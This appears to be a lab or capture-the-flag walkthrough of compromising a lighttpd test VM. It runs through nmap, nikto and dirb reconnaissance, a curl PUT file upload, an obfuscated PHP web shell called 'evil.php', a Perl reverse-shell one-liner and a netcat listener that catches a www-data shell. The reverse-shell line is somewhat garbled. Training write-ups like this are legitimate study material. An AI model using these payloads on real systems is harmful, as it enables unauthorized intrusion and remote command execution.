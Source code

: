 # Port Scan

Perform a Ping Sweep

nmap -sn 192.168.114.1-254

Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-01 23:57 AEDT
MAC Address: 00:50:56:FE:6D:CA (VMware)
Nmap scan report for 192.168.114.132
Host is up (-0.10s latency).
MAC Address: 00:50:56:FF:87:FA (VMware)
Nmap scan report for 192.168.114.131
Host is up.
Nmap done: 254 IP addresses (5 hosts up) scanned in 2.35 seconds

192.168.114.131 is my KALI machine
192.168.114.132 is target machine

#Enumeration
###Port Enumeration

nmap -sV 192.168.114.132

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    lighttpd 1.4.28

### HTTP Enumeration

nikto -h 192.168.114.132

+ Server: lighttpd/1.4.28
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ All CGI directories 'found', use '-C none' to test none
+ OSVDB-3268: /test/: Directory indexing found.
+ 26188 requests: 0 error(s) and 4 item(s) reported on remote host

Directory indexing found , but it is empty, so useless information.

dirb http://192.168.114.132

---- Scanning URL: http://192.168.114.132/ ----
+ http://192.168.114.132/index.php (CODE:200|SIZE:163)                         
==> DIRECTORY: http://192.168.114.132/test/ 

Also only found one directory.

### Searching for exploits

searchsploit -e lighttpd

Does not return with any major exploits or vulnerabilities.

Low Hanging Fruit : http://192.168.114.132/test/ 

Using cURL to see If we can upload any files onto /test/

echo "test" > test.txt
curl -T 'test.txt' 'http://192.168.114.132/test/test.txt'

<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
         "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
 <head>
  <title>417 - Expectation Failed</title>
 </head>
 <body>
  <h1>417 - Expectation Failed</h1>
 </body>
</html>

We are returned with Expectation Failed, which is unique. A bit of googling
https://stackoverflow.com/questions/9120760/curl-simple-file-upload-417-expectation-failed

Says we need to include --http1.0
curl -T 'test.txt' 'http://192.168.114.132/test/test.txt' --http1.0

Successfully Uploaded a file. 


### Exploit
Now we have full reigns on upload , you can upload a reverse php shell, backdoor etc. In this case we'll upload a basic php system call.

echo 'system($_GET['cmd']);' | base64      // Not neccessary to encode it to base64
echo "<?php eval(base64_decode('c3lzdGVtKCRfR0VUW2NtZF0pOwo=')) ?>" > evil.php
Upload and Accessing the exploit: in URL
http://192.168.114.132/test/evil.php?cmd="XXXXANYCOMMANDHERE"

Using a basic perl reverse shell (Generated from msfvenom)  // port 1234 , will not return anything. Port 443 works!
http://192.168.114.132/test/evil.php?cmd=192.168.114.132/test/test.php?cmd=/usr/bin/perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.21.31:1234");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'

OR just use one of http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

nc -lvp 443
listening on [any] 443 ...
192.168.114.132: inverse host lookup failed: Unknown host
connect to [192.168.114.131] from (UNKNOWN) [192.168.114.132] 59858
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)


#Privilege Escalation











